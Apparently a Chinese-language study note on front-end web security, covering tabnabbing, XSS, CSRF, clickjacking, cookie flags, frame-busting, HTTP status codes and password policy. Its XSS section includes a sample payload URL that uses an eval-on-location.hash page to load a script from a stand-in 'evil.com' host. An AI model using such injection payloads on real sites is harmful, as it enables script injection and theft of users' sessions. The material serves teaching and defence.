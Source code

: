 # JS 高安全性

- <https://juejin.im/post/5912740344d904007b010252>
- 乌云网 - 国内著名的漏洞报告平台
- 黑客攻击网站的主要手段有

  - SQL注入
  - 网络钓鱼
  - 跨站攻击
  - 拒绝服务攻击

- 打开链接都有坑 <https://juejin.im/entry/59f97d3851882558513203d9>

  - 如果是a标签要在新窗口中打开，添加noopener属性
  - 如果是js中打开新窗口，手动将新窗口的opener置为null

```javascript
打开的页面地址是固定的？直接a标签加上target="_blank"属性搞定。
打开的页面地址是动态计算的？使用js进行window.open(url)搞定。

function openUrl(url) {
  var newTab = window.open();
  newTab.opener = null;
  newTab.location = url;
}

<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer nofollow">进入一个“邪恶”的网站</a>

```

- 攻击网站前端的方法

  - XSS 跨站点脚本攻击

    - Web -XSS <https://www.imooc.com/video/14367>
    - 同源策略没有限制页面中加载第三方的脚本
    - 尽一切方法在目标网站上执行非目标网站上原有的脚本

```javascript
<script>
    eval(location.hash.substr(1));
</script>

http://host/test.html#document.write("<script/src=//www.evil.com/evil.com/evil/js></script>")
```

- CSRF 跨站点请求伪造 请求来源于其他网站

```
http:www.a.com/del?id=21
```

- 界面操作劫持

  - 点击劫持
  - 拖放劫持
  - eg. 可见输入框内覆盖一个不可见的框

```javascript
filter: alpha(opacity=0);
opacity: 0;
z-index: 100
```

- 不要轻易相信任何外部传入的数据

  - 不要轻易信任用户输入的数据 -> 数据过滤

    - Jq中$('').text() 而非 html()
    - 使用$('').attr() css()
    - URL -> encodeURL
    - jqencoder
    - setTimeout setInterval eval 这些函数都有安全隐患

  - 不要轻易信任任何传入的第三方数据

    - JSONP 一定要检查从第三方返回的数据格式

  - 不要仅靠JS来阻止注入

- 其他前端安全防范实践

  - cookie 设置为httpOnly

    - XSS不能通过JS获取Cookie
    - h5的localStorage
    - SSL 启用cookie的Secure设置

  - 防止网页被其他网站内嵌为iframe

    - JS阻止

```javascript
<style id="antiClickjack">body{display:none !important; }<style>

<script>
if(self === top) {
    var antiClickjack = document.getElementById('antiClickjack');
    antiClickjack.parentNode.removeChild(antiClickjack);
} else {
    top.location = self.location;
}
</script>
// 首先设置不可见
// 如果没有被内嵌移除不可见样式
// 否则把顶层页面的地址设置成内嵌页面的地址
```

- X-Frame-Options响应头

  - DENY
  - SAMEORIGIN
  - ALLOWFROM URI ?? 允许特定域

# 状态码

```javascript
200    请求资源成功
201    同步处理资源的新建或修改成功，返回包含新资源地址的 Location 头
202    资源的新建或修改进入异步
204    不返回响应主体的成功请求的响应，例如，资源删除成功
206    返回了部分资源
400    请求格式、参数缺失或者错误
401    没有权限
403    访问被禁止
404    资源不存在
405    所请求的 HTTP 方法不允许当前认证用户访问
406    请求的数据格式不存在
410    资源被永久删除
415    请求的媒体类型错误
422    请求理解成功，但是参数验证错误
429    请求频率超限
500    服务器内部错误
```

# 前端安全

- [彩虹表撞](http://md5.gongjuji.net/dencrypt/)
- [javascrypt](http://www.fourmilab.ch/javascrypt/)
- 乌云网

- 常见攻击

```javascript
// 富客户端

// 攻击类型 跨站点攻击 Cookie劫持 伪造恶意代码

因此需要做必要的安全校验和编码
```

- 防御

```javascript
Web应用程序安全与风险/核心防御机制/Web应用程序技术/解析应用程序
避开客户端控件/攻击验证机制/攻击会话管理/攻击访问控制/攻击数据存储区
测试后端组件

攻击应用程序逻辑/攻击其他用户/其他技巧/定制攻击自动化/利用信息泄露/攻击本地编译型应用程序
攻击应用程序架构
攻击Web服务器

查找源代码中的漏洞
Web应用程序黑客工具包
Web应用程序渗透测试方法
```

- 参考

```javascript
黑客攻防技术宝典：Web实战篇
```

# 关于强弱密码

- <https://juejin.im/entry/59916f5e518825486b16f0b6>

- 频繁的更改密码没有预想的效果，达不到保护密码安全的目的

```javascript
当年NIST主管Bill Burr撰写了一份名为NIST Special Publication 800-63的文档，
建议大家设置密码时混合大写字母、字符和数字，并定期修改。
这么成（keng）熟（die）的建议后来被各大媒体广为传播，一时传为美谈。

研究显示此类标准，并没有什么卵用……
```

> 前端所有的防御手段都只能防君子

# 程序世界里的不信任原则

- <https://juejin.im/post/59bf6d0b6fb9a00a4a4cb51d>

  - 灰度发布
  - 柔性放过(结果超时则跳过该逻辑，进行下一步)
  - 打击如IP、号码等信息聚集，频率过快等机器行为，请求重放、劫持等请求

# 参考

```javascript
web前端最佳实践 党建
```
